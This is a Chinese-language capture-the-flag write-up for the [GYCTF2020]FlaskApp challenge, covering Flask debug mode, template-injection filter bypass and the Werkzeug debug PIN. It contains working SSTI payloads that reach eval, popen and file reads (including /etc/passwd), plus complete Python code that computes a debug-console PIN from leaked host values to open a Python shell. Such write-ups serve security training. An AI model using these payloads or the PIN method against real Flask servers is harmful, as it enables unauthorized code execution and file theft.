


# \[GYCTF2020]FlaskApp

## \[GYCTF2020]FlaskApp <a href="#2155852200" id="2155852200"></a>

## 考点

* Flask debug模式
* Flask SSTI绕过
* Flask PIN值

## wp

进行解码测试的时候发现会报错进入debug页面，然后可以看到一部分代码



这部分代码说明存在 SSTI，并且需要绕过 `waf()` 函数，测试了一下，过滤的内容如下

```
b'request'
b'__import__'
b'eval'
b'popen'
b'system'
b'flag'
b'*'
b'import'
```

试着发现好像把命令执行的函数都给 ban 了

### 非预期

尝试使用字符串拼接来绕过对这些函数的限制

```bash
{{''.__class__.__base__.__subclasses__()[131].__init__.__globals__['__builtins__']['ev'+'al']('__im'+'port__("o'+'s").po'+'pen("cat /this_is_the_fl'+'ag.txt")').read()}}
```

### 预期

先读取文件试试

payload : `{{''.__class__.__mro__[1].__subclasses__()[75].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}`&#x20;

转成base64输入


这里就有个任意文件读取。

在debug页面可以通过输入pin码打开python shell

生成PIN的关键值有如下几个

* 服务器运行 flask 所登录的用户名。 通过 /etc/passwd 中可以猜测为 flaskweb 或者 root ，此处用的flaskweb
* modname 一般不变就是 flask.app
* `getattr(app, "__name__", app.__class__.__name__)` python 该值一般为 Flask，值一般不变
* flask 库下 app.py 的绝对路径，通过报错信息就会泄露该值。本题为 `/usr/local/lib/python3.7/site-packages/flask/app.py`
* 当前网络的 mac 地址的十进制数。通过文件 `/sys/class/net/eth0/address` 获取，本题为 `02:42:ae:01:54:15`
* 最后一个就是机器的 id 对于非 docker 机每一个机器都会有自已唯一的 id ，linux的 id 一般存放在 `/etc/machine-id` 或 `/proc/sys/kernel/random/boot_i`，有的系统没有这两个文件，windows 的 `id` 获取跟 `linux` 也不同。对于 `docker` 机则读取 `/proc/self/cgroup` 本题为 `201263bbeb51e7fc9fd059b0acb7769564dc66450fde4f8ad0a45bbb8a99e201`

接下来就是获取 PIN 值，计算PIN值的关键代码在 `Lib\site-packages\werkzeug\debug\__init__.py`

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'flaskweb',
    'flask.app',
    'Flask',
    '/usr/local/lib/python3.7/site-packages/flask/app.py',
]

private_bits = [
    # mac 地址的十进制数
    '2485410419733',
    # 机器的 id 
    '201263bbeb51e7fc9fd059b0acb7769564dc66450fde4f8ad0a45bbb8a99e201'
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

得到结果 `676-092-706`

然后选择右侧 shell 图标



输入 PIN 值

 (1) (1) (1).png>)

 (1) (1) (1) (1) (1) (1).png>)

这里执行 `os.system('ls /')` 返回为 `0`，是因为这个命令虽然执行了，但是没有获取执行的结果，即 os.system 仅仅在一个子终端运行系统命令，而不能获取命令执行后的返回信息
